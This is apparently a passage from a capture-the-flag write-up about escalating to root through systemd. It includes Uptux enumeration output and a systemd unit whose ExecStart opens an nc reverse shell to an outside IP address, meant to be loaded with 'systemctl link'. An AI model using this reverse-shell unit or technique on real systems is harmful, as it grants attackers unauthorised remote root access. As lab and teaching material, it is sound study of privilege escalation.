 Maybe we can do something with a systemd unit to escalate to root? In my research, I found Uptux, a python script for looking for local priv esc using systemd/D-Bus.

<SEE uptux.out for full output>

The section that caught my eye in the output was:
```
++++++++++  uptux_check_socket_units: Inspect systemd socket unit files  ++++++++++


[*] Starting module at 2019-07-31-09.55.55


[*] Found 16 socket units to analyse...


[*] Checking permissions on socket unit files...

[+] No writeable targets. This is expected...

[*] Checking for write access to AF_UNIX sockets...

[INVESTIGATE] You have write access to AF_UNIX socket files invoked by a systemd service.
This could be interesting.
You can attach to these files to look for an exploitable API.
  /lib/systemd/system/systemd-journald.socket:
    /run/systemd/journal/stdout
    /run/systemd/journal/socket

  /lib/systemd/system/dbus.socket:
    /var/run/dbus/system_bus_socket

  /lib/systemd/system/syslog.socket:
    /run/systemd/journal/syslog

  /lib/systemd/system/systemd-journald-dev-log.socket:
    /run/systemd/journal/dev-log



[*] Finished module at 2019-07-31-09.55.55
```

Apparently using systemctl you can use the link command to make a systemd unit available even if it isn't in the normal search paths (which pepper doesn't have write access to), so we need to setup some way of spawning a shell using systemd.

```
[Unit]
Description=Reverse shell

[Service]
Type=oneshot
ExecStart=/bin/nc -e /bin/bash 10.10.16.58 8888
```
